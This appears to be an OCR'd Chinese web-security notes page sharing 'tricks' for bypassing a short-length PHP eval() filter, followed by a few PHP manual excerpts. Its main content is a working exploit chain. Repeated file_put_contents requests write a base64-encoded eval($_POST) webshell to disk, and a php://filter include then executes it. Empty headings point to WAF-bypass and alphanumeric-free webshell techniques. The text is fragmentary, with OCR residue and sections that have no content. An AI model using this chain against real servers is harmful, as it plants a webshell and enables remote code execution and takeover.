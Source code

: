 know it then do it



`ph` 师傅的 来自小密圈的那些奇技淫巧

**`eval()`长度限制突破方法**

```php
<?php
$param = $_REQUEST['param'];
if (
    strlen($param) < 17 &&
    stripos($param, 'eval') === false &&
    stripos($param, 'assert') === false
) {
    eval($param);
}
```

```php
$_GET[1];
exec($_GET[1]);

include$_GET[1]
foo.php?1=file_put_contents&param=$_GET[1](N, P, 8);
foo.php?1=file_put_contents&param=$_GET[1](N, D, 8);
					...
foo.php?1=file_put_contents&param=$_GET[1](N, W, 8);
/* 'PD9waHAgZXZhbCgkX1BPU1Rb0V0p0w' 被写入文件 'N' 中 */

foo.php?param=include$_GET[1];
&1=php://filter/read=convert.base64-decode/resource=N
```

**命令长度限制突破技巧**

**MySQL 突破换行符的技巧**

**命令执行waf绕过技巧**

**无字母数字webshell构造技巧**



> 之前学习`phar`协议反序列化时fuzz过一遍PHP函数，发现了PHP的一个特点：**只要是传filename的地方，基本都可以传协议流**。而`file_put_contents`的第一个参数显然就是传`filename`的地方，那么试试可不可以利用php伪协议？



get_defined_vars ( void ) : array

此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。



'SERVER_NAME'

当前运行脚本所在的服务器的主机名。如果脚本运行于虚拟主机中，该名称是由那个虚拟主机所设置的值决定。

> **Note**: 在 Apache 2 里，必须设置 *UseCanonicalName = On* 和 *ServerName*。 否则该值会由客户端提供，就有可能被伪造。 上下文有安全性要求的环境里，不应该依赖此值。
